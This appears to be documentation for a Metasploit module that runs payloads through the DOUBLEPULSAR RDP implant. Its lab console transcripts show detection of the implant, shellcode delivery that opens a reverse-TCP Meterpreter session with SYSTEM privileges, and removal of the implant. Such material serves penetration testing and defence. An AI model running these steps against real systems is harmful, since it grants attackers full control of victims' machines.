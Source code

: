 ## Introduction

This module executes a Metasploit payload against the Equation Group's
DOUBLEPULSAR implant for RDP.

While this module primarily performs code execution against the implant,
the `Neutralize implant` target allows you to disable the implant.

## Targets

```
Id  Name
--  ----
0   Execute payload (x64)
1   Neutralize implant
```

## Options

**DefangedMode**

Set this to `false` to disable defanged mode and enable module
functionality. Set this only if you're SURE you want to proceed.

**ProcessName**

Set this to the userland process you want to inject the payload into.
Defaults to `spoolsv.exe`.

## Usage

Pinging the implant:

```
msf exploit(windows/rdp/rdp_doublepulsar_rce) > check

[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[+] 192.168.56.115:3389 - The target is vulnerable.
msf exploit(windows/rdp/rdp_doublepulsar_rce) >
```

Executing a payload:

```
msf exploit(windows/rdp/rdp_doublepulsar_rce) > set target Execute\ payload
target => Execute payload
msf exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Generating kernel shellcode with windows/x64/meterpreter/reverse_tcp
[*] 192.168.56.115:3389 - Total shellcode length: 4096 bytes
[*] 192.168.56.115:3389 - Sending shellcode to DOUBLEPULSAR
[*] Sending stage (206403 bytes) to 192.168.56.115
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.115:49158) at 2019-11-25 18:10:21 -0600
[+] 192.168.56.115:3389 - Payload execution successful

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : WIN-S7TDBIENPVM
OS              : Windows 2008 R2 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x64/windows
meterpreter >
```

Neutralizing the implant:

```
msf exploit(windows/rdp/rdp_doublepulsar_rce) > set target Neutralize\ implant
target => Neutralize implant
msf exploit(windows/rdp/rdp_doublepulsar_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444
[*] 192.168.56.115:3389 - Verifying RDP protocol...
[*] 192.168.56.115:3389 - Attempting to connect using TLS security
[*] 192.168.56.115:3389 - Swapping plain socket to SSL
[*] 192.168.56.115:3389 - Sending ping to DOUBLEPULSAR
[!] 192.168.56.115:3389 - DOUBLEPULSAR RDP IMPLANT DETECTED!!!
[+] 192.168.56.115:3389 - Target is Windows Server 6.1.7601 SP1 x64
[*] 192.168.56.115:3389 - Neutralizing DOUBLEPULSAR
[+] 192.168.56.115:3389 - Implant neutralization successful
[*] Exploit completed, but no session was created.
msf exploit(windows/rdp/rdp_doublepulsar_rce) >
```
